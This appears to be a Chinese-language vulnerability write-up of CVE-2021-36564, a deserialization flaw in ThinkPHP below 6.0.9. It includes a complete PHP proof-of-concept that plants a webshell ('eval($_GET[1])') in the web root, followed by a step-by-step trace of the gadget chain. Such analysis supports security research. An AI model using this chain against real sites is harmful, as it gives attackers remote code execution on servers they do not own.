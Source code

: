 [https://zhuanlan.zhihu.com/p/652094569](https://zhuanlan.zhihu.com/p/652094569)

## CVE-2021-36564

### 简历

ThinkPHP v6.0.8 通过组件 vendor\\league\\flysystem-cached-adapter\\src\\Storage\\Adapter.php 发现一个反序列化漏洞。

### 范围：

thinkphp<6.0.9

### 环境

这里装 tp6.0.8  
composer create-project topthink/think=6.0.x tp6.0.8  
老规矩删 lock 文件改 comoser.json 重新 composer install 一遍

### 调试

很简单的链子。应该是最短的了 Poc:

```plain
<?php
namespace League\Flysystem\Adapter;
class Local{}
namespace League\Flysystem\Cached\Storage;
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
    protected $autosave;
    protected $cache = [];
}
class Adapter extends AbstractCache{
    protected $adapter;
    protected $file;
    function __construct(){
        $this->autosave=false;
        $this->adapter=new Local();
        $this->file='huahua.php';
        $this->cache=['huahua'=>'<?php eval($_GET[1]);?>'];
    }
}
$o = new Adapter();
echo urlencode(serialize($o));

?>
```

入口点是 abstract class AbstractCache 中的\_\_destruct 方法  
但是 PHP 的抽象方法不能被实例化，因此需要实例化它的子类，这里选择的是 League\\Flysystem\\Cached\\Storage 的 Adapter.php  
然后进入 Adapter.php 的 save () 方法：目标是进入 write () 方法，里面有 `file_put_contents,这里参数都可以控制首先看一下getForStorage()方法,它影响了write函数写入文件的内容content它会返回一个json加密的数据,这个参数是cache,protected $cache = [];我们实例化的时候可控进入` cleanContents() `函数:我们只需要传入的cache是一个一维数组就不会进入if语句然后考虑这个this->adapter变量,这里找的是同时具有` has ()\` 方法和 write () 方法的类，找到的是 League\\Flysystem\\Adapter 的 Local.php  
首先 has 方法我们需要保证返回 false 进入 applyPathPrefix () 很简单的字符串拼接，我们传入的 $this->file 只要是一个不存在的文件就行进入 write () 方法一样的先调用 applyPathPrefix () 方法，拼接一下文件路径，这里做的限制是删除路径的 / 字符，tp 默认写入文件就是 public 目录我们不需要设置路径最后成功写入木马  
此外我们看下 Y4tacker 师傅的 poc
